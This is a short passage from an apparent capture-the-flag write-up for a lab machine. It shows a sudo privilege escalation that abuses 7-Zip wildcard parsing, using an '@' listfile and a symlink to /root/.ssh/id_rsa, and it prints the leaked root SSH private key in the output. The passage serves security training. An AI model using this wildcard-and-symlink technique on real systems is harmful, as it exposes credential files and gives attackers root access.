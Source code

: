 ### SUDO - Custom C binary : Abuse wildcards in 7z command to read root's ssh private key

> Reference : https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks#id-7z

Try to read `root`'s ssh private key

```bash
xander@usage:~$ cd /var/www/html/
xander@usage:/var/www/html$ touch @root.id_rsa
xander@usage:/var/www/html$ ln -s /root/.ssh/id_rsa root.id_rsa
```

```bash
xander@usage:/var/www/html$ sudo /usr/bin/usage_management
Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3): 1

7-Zip (a) [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs AMD EPYC 7763 64-Core Processor                 (A00F11),ASM,AES-NI)

Open archive: /var/backups/project.zip
--
Path = /var/backups/project.zip
Type = zip
Physical Size = 54829757

Scanning the drive:

WARNING: No more files
-----BEGIN OPENSSH PRIVATE KEY-----


WARNING: No more files
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW


WARNING: No more files
QyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3QAAAJAfwyJCH8Mi


WARNING: No more files
QgAAAAtzc2gtZWQyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3Q


WARNING: No more files
AAAEC63P+5DvKwuQtE4YOD4IEeqfSPszxqIL1Wx1IT31xsmrbSY6vosAdQzGif553PTtDs


WARNING: No more files
H2sfTWZeFDLGmqMhrqDdAAAACnJvb3RAdXNhZ2UBAgM=


WARNING: No more files
-----END OPENSSH PRIVATE KEY-----

2984 folders, 17946 files, 113879410 bytes (109 MiB)

Updating archive: /var/backups/project.zip

```